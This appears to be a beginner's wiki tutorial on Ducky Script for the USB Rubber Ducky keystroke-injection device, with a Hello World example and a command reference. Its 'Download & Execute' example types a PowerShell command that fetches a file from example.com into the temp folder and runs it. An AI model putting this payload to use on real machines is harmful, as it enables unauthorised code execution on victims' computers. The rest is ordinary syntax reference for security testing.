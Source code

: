 = Introduction =
Since first time Ducky users are unfamiliar with Ducky Script, below is a brief summary (with examples) on how to code in Ducky Script.

= Example 1 - Hello World =
The Ducky fires the payload immediately, so you need an initial delay for the OS to recognize and allow the Ducky to proceed as a keyboard, in this example we use a delay of 3secs (3000msecs) for the Windows OS (other OS's may be quicker).

The steps of this example can be broken down into:
* Initial Delay for the OS
* GUI r triggers the run-box
* Small delay to wait for the run-box to open
* Ducky types notepad ENTER to load notepad
* Small delay to wait for notepad to open
* Ducky then types an arbitrary string into notepad

 DELAY 3000
 GUI r
 DELAY 200
 STRING notepad
 ENTER
 DELAY 200
 STRING Hello World!!!
 ENTER

* Note : For Windows 10, the GUI does not seem to work. Use CTRL ESC instead. Below is the complete example:
<code>
DELAY 2000
CTRL ESC
DELAY 2000
STRING notepad.exe
ENTER
DELAY 2000
STRING HELLO WORLD!!!
ENTER
</code>
= Example 2 - Download & Execute =
An example of using Powershell to download a file from the web and then execute it.
 DELAY 3000
 GUI r
 DELAY 100
 STRING powershell (new-object System.Net.WebClient).DownloadFile('http://example.com/bob.old','%TEMP%\bob.exe');
 DELAY 100
 STRING Start-Process "%TEMP%\bob.exe"
 ENTER
= Other Examples =
The community is storing generated payloads on the following wiki-page:
* [[Payloads]]

=Command Breakdown=
* DELAY ''x'' - Delay in milli-secs
* STRING ''xyz'' - types following characters
* GUI - Windows Menu Key
* GUI r - Windows Run box
* COMMAND - OSX Command Key
* UP | UPARROW - Up Key
* DOWN | DOWNARROW - Down Key
* LEFT | LEFTARROW - Left Key
* RIGHT | RIGHTARROW - Right Key
* CAPS |CAPSLOCK - Capslock Key
* ENTER - Return/Enter key
* SPACE - Spacebar
* REPEAT ''x'' - Repeat previous command X times.
You can even use some (but not all) two or three key-combinations:
* SHIFT-ENTER
* CTRL-ALT-DEL
* ALT-F4

## Reference

[My first payload](https://github.com/hak5darren/USB-Rubber-Ducky/wiki/My-first-payload)
